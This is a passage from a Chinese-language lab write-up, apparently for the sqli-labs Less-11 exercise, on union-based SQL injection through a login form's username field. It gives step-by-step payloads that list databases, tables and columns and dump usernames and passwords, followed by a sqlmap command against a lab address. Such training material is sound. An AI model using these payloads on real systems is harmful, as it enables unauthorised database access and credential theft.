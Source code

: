 `uname=-1' union select 1,2#`

![image-20211207202153337](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057651.png)

#### 查询数据库

`uname=-1' union select 1,database()#`

![image-20211207202240735](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057311.png)

##### ⭐查询所有数据库：

```
uname=-1' union select 1,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)#
```

![image-20211207202043448](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058513.png)

#### 获取数据库中的table

`uname=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`

![image-20211207202353756](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020101815.png)

security数据库中共有4张表：emails,referers,uagents,users

#### 获取表中的字段

`uname=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#`

![image-20211207202437729](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058950.png)

users表中有三个字段：id,username,password

#### 获得字段中的数据

通过`group_concat()`函数聚合，使得一个字段中显示多个表项：

`uname=-1' union select group_concat(id,username),group_concat(password) from users#`

![image-20211207202529970](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058538.png)



### 2、sqlmap

```cmd
python sqlmap.py -u "http://10.12.202.251:22699/Less-11/"  --forms
```

![image-20211207202843899](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058440.png)

![image-20211207202855178](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058362.png)
